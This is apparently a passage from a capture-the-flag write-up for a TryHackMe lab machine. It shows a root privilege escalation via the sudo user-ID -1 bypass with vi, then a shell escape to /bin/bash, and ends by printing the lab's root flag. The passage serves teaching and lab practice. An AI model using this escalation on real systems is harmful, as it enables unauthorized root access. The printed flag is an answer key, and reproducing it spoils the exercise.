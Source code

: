 ![9](https://github.com/Knign/Write-ups/assets/110326359/2f1e4e69-d600-4857-b53f-f70827737ac5)

Let's craft our exploit.
```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
Next we have to type the following;

```
:!/bin/bash
```

![10](https://github.com/Knign/Write-ups/assets/110326359/55986df9-d404-4786-b90a-d5082bc853b5)

We must have `root` access.
```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

root@year-of-the-rabbit:/home/gwendoline#
```
Let's get the root flag.
```
root@year-of-the-rabbit:/home/gwendoline# cd /root/
root@year-of-the-rabbit:/root# cat root.txt 
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
### Answer
```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
